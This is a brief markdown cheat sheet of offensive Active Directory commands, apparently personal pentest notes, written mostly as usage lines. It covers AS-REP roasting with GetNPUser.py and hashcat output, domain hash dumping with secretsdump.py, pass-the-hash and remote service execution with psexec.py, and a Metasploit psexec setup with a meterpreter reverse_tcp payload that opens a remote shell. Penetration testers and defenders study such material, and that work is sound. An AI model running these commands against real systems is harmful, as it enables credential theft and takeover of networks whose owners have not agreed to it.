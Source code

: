 # GetNPUser.py #AD 
    used for: 
          This script will attempt to list and get TGTs for those users that have the property
    usage:  
```
GetNPUser.py DOMAIN.local/USERNAME PASSWORD or -no-pass 
GetNPUser.py -dc-ip IP -request 'DOMAIN'
GetNPUser.py -dc-ip IP -request 'DOMAIN' -format hashcat 
```


# secretsdump.py #hashdump 
    used for
	    hashdumping
	usage:
```bash
	    secretsdump.py DOMAIN/USERNAME:'PASSWORD'@IP -just-dc
```
		
		
# psexec.py 
#passhash
    used for: 
	    1- passing hashes
		2- creates a remote service by uploading a randomly-named executable to the hidden Windows ADMIN$ share, registering a service via RPC and the Windows Service Control Manager, and then communicating over named a named pipe
	usage 1 : 
```bash
psexec.py USUERNAME@IP -hashes HASH
```
	usage 2 :
```bash
 psexec.py SHARE/ADMIN_ACCOUNT:"PASSWORD\!"@IP
```


## psexec over msfconsole
```
use windows/smb/psexec
set rhosts TARGET IP
set smbdomain DOMAIN
set smbpass and smbuser
set target 2
set payload windows/x64/meterpreter/reverse_tcp
```




#  samrdump.py 

	used for 
		Enmurating SMB shares
	Usage:
```bash
samrdump <IP>
```